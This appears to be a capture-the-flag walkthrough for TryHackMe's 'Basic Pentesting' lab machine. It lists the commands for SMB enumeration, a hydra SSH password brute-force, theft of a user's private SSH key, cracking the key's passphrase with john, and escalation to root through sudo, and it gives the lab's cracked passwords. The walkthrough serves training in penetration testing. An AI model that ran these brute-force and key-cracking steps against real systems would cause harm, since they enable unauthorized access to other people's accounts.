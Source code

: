 <img src="/images/THMlogo.png" alt="tryhackme" width="200"/>

![](/images/THMlogo.png)

# Basic Pentesting

## tryhackme

### nmap

```
Port 22 SSH
Port 80 HTTP
Port 139 Samba
Port 445 Samba
Port 8009 AJP
Port 8080 HTTP Apache Tomcat 9.0.7
```
### gobuster
Initial page under construction. Enumerate main page and find:
```
/development
```
Continue directory serach but nothing else shows.

Two files exisit:

dev.txt
```
2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```
j.txt
```
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```
### smbmap

```
smbmap -H <IP>
```
Provides Anonymous account

```
smbclient //<IP>anonymous
```
Provides staff.txt letter confirming two usernames - Jay and Kay

### hydra

```
hydra -t 4 -l jan -P <rockyou.txt directory> ssh://<MACHINE IP>
```
Provides Jan's password *armando*

### ssh

Logging into Jan's account does not show anything and also no ability to sudo.

Investigate /home directory and we find Kay:
```
pass.bak
.ssh
```
Copy id_rsa from .ssh file and save on attacker computer.

### john the ripper

Hash the key with the following command:
```
python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash
```
Now use John to crack the hash. This only provides the passphrase for the public key.
```
/usr/sbin/john --wordlist=/root/Desktop/dict/rockyou.txt id_rsa.hash
```
We find *beeswax* is the passphrase.

## enumeration
Now login from Jan on the target host using:
```
ssh -i /home/kay/.ssh/id_rsa kay@<IP>
```
We now have Kay's account. Remember the pass.bak. Cat this:
```
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```
Now see what we can do with sudo -l:

```
User kay may run the following commands on basic2:
  (ALL : ALL) ALL
```
So we have full control, just switch to root and after looking in the /root folder we have a congratulations flag.
